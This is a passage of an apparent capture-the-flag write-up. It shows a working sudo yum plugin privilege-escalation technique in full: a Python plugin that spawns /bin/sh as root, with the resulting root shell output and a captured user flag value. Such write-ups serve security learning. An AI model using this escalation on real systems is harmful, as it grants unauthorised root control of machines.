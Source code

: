 **Output**:
```plaintext
-bash: fpm: command not found
```

Pivoted to the YUM plugin method:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

**Output**:
```plaintext
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
```

Achieved `root` access.

---

## Retrieving Flags

1. **User Flag**:
   Located in `/home/jjameson/user.txt`:
   ```bash
   cat /home/jjameson/user.txt
   ```
   **Output**:
   ```plaintext
   27a260fe3cba712cfdedb1c86d80442e
   ```
